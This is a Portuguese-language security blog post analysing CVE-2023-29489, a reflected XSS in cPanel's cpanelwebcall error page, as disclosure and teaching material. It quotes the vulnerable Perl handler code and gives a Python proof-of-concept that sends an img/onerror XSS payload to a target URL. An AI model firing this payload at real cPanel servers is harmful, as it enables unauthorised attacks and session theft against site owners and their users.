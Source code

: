 ```yaml
---
layout: post
title:  "Análise da CVE-2023-29489: XSS refletido no cPanel"
date:   2024-05-14
---
```


A CVE-2023-29489[1] trata-se de uma vulnerabilidade de Cross-Site Scripting (XSS)[2] refletido identificada no software de painel de controle de hospedagem cPanel[3], amplamente utilizado na web. A vulnerabilidade XSS permite que um atacante execute scripts maliciosos em uma página que está sendo acessada por outros usuários. O atacante não precisa estar autenticado.

Essa vulnerabilidade foi identificada em 26 de abril de 2023 pela equipe de segurança da Assetnote[4], uma empresa de segurança da Austrália. A vulnerabilidade impacta versões do cPanel anteriores a 11.109.9999.116 e foi corrigida nas versões 11.109.9999.116, 11.108.0.13, 11.106.0.18 e 11.102.0.31 ou em versões posteriores.

Essa publicação está disponível também em: [Inglês](https://blog.lesis.lat/blog/2024-09-10-CVE-2023-29489-EN/)

---

### Descrição

O cPanel é um software feito em Perl[5] com binários gerados a partir do código Perl. Baseado nos binários que podem ser acessados no diretório **/cgi-sys/** nas portas de gerenciamento, nota-se a existência de binários que eram códigos Perl e que são chamados remotamente por meio de solicitações HTTP.

Além dos binários dentro de **/cgi-sys/**, algumas funcionalidades e aplicativos da web do cPanel são atendidos por meio do binário cpsrvd. O binário cpsrvd é executado por padrão nas portas: 2082, 2083, 2086, 2087. Para isso, o cPanel utiliza as funcionalidades de proxy reverso do Apache[6] e a configuração para isso é encontrada em **/etc/apache2/conf/httpd/conf/**. Essas configurações de proxying e aliasse de scripts definem áreas potencialmente interessantes para ataques:

```
ProxyPass /cpanelwebcall/ http://127.0.0.1:2082/cpanelwebcall/ max=1 retry=0

... omitted for brevity ...

ScriptAlias /.cpanel/dcv /usr/local/cpanel/cgi-priv/get_local.cgi

RewriteEngine On

RewriteCond %{REQUEST_URI} ^/\.well-known/acme-challenge/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/cpanel-dcv/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/[A-F0-9]{32}\.txt(?:\ Sectigo\ DCV)?$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/(?:\ Ballot169)?
RewriteRule ^ /.cpanel/dcv [passthrough]
```

O arquivo **Cpanel/Server/Handlers/Httpd.pm** possui uma lógica especifica referente a manipulação de caminhos. Isso permitiu que fossem mapeadas as superfícies de ataques. Dentro do httpd.pm existe um trecho de código que roteia todas as solicitações de um caminho que comece por **/panelwebcall** para uma função chamada **_server_cpanelwebcall** que por sua vez chama outra função, chamada **Chanel::Server::WebCalls::handle** com uma parte da URL como argumento:

```perl
elsif ( 0 == rindex( $doc_path, '/cpanelwebcall/', 0 ) ) {
        # First 15 chars are “/cpanelwebcall/”
        _serve_cpanelwebcall(
            $self->get_server_obj(),
            substr( $doc_path, 15 ),
        );
    }
```


A função **_serve_cpanelwebcall** se parece com isso:

```perl
sub _serve_cpanelwebcall ( $server_obj, $webcall_uri_piece ) {
    require Cpanel::Server::WebCalls;
    my $out = Cpanel::Server::WebCalls::handle($webcall_uri_piece);

    $server_obj->respond_200_ok_text($out);

    return;
}
```


Que nos leva para a função **Chanel::Server::WebCalls::handle**:

```perl
sub handle ($request) {

    my $id = extract_id_from_request($request);
    substr( $request, 0, length $id ) = q<>;

    Cpanel::WebCalls::ID::is_valid($id) or do {
        die _http_invalid_params_err("Invalid webcall ID: $id");
    };
```

A função handle extrai um ID da solicitação e em seguida modifica a solicitação, removendo o ID. Se o ID não for válido, ele gera um erro indicando a solicitação inválida. Quando o erro acontece, a função **_httpd_invalid_params_err** é chamada, onde essa função cria uma exceção chamada **cpsrvd::BadRequest** que leva até o módulo **Cpanel::Server::Handlers::ErrorPage**. Dentro desse módulo existe uma variável chamada **message_html**. A vulnerabilidade está nessa variável, pois ela não está sanitizando a mensagem de erro ao inserir o ID inválido.

---

### Prova de Conceito

Exploit:

```python
#!/usr/bin/env python3
import requests
import argparse
import re

def exploit(target):
    payload = "<img%20src=x%20onerror='alert(1)'>foo"
    if not re.match(r'^https?://', target):
        target = f"https://{target}"

    try:
        response = requests.get(f"{target}/cpanelwebcall/{payload}")
        if payload in response.text:
            return f"The payload [{payload}] worked!"
        else:
            return f"The target [{target}] is not vulnerable."
    except requests.exceptions.RequestException as e:
            return(f"Error making request for {target} -> {e}")

def main():
    parser = argparse.ArgumentParser(description="CVE-2023-29489 | XSS in cPanel")
    parser.add_argument("-t", "--target", required=True)
    args = parser.parse_args()

    try:
        print(exploit(args.target))
    except KeyboardInterrupt:
         exit(1)
    except EOFError:
         exit(1)
if __name__ == '__main__':
    main()
```


---

### Impacto

O impacto dessa vulnerabilidade permite que um invasor execute códigos JavaScript arbitrários, sem estar autenticado, em quase todas as portas de um servidor web que utiliza o cPanel.  Isso ocorre devido as regras de proxy, onde é possível através das portas 80 e 443 acessar o diretório /cpanel/, pois estará sendo redirecionado para as portas de gerenciamento do cPanel pelo Apache.

O fato das portas de gerenciamento do cPanel serem vulneráveis a XSS permite que um atacante roube a sessão de um usuário legítimo, uma vez agindo como um usuário autenticado, é possível fazer upload de uma web shell[7] e obter a execução remota de comandos no servidor.

A vulnerabilidade apresenta uma ameaça significava a segurança da aplicação e é altamente recomendado que os administradores de sistemas atualizem para a versão mais recente.

---

### Conclusão

A versão cPanel aqui discutida, tem uma superfície vulnerável, onde essa vulnerabilidade permite que o atacante execute scripts maliciosos em páginas acessadas pelos usuários comuns, onde o atacante não precisa estar autenticado para explorá-la. A vulnerabilidade é explorável independente da porta do cPanel (2080, 2082, 2083, 2086) estar exposta externamente ou não.   

A exploração dessa vulnerabilidade pode resultar na execução de códigos JavaScript arbitrário em praticamente todas as portas de um servidor web que utilize o cPanel. Isso ocorre devido as regras de proxy que permitem o acesso ao diretório **/cpanel/** mesmo nas portas 80 e 443, redirecionando as solicitações para as portas de gerenciamento do cPanel devido os proxys do Apache.

A vulnerabilidade foi corrigida com patches disponíveis nas versões posteriores ao cPanel 11.109.9999.116. É fundamental que os administradores de sistemas atualizem seus sistemas para a versão mais recente do cPanel e implementem as correções disponíveis para mitigar as ameaças.

---

- Este artigo foi escrito por Lucas Katashi, atualmente trabalha como pentester e é apaixonado por Red-Team, gosta de codificar ferramentas e o Burp Suite é seu melhor amigo.

---

### Referências

* [1] [MITRE - CVE-2023-29489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29489)
* [2] [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
* [3] [Hostinger - Domine o cPanel: Prós, Contras e Como Usar](https://www.hostinger.com.br/tutoriais/cpanel-o-que-e-painel-de-hospedagem)
* [4] [Assetnote - Finding XSS in a million websites (cPanel CVE-2023-29489)](https://www.assetnote.io/resources/research/finding-xss-in-a-million-websites-cpanel-cve-2023-29489)
* [5] [Perl - Flexible & Powerful](https://www.perl.org)
* [6] [Apache - Software for the public good](https://www.apache.org)
* [7] [Wikipedia - Web Shell](https://en.wikipedia.org/wiki/Web_shell)
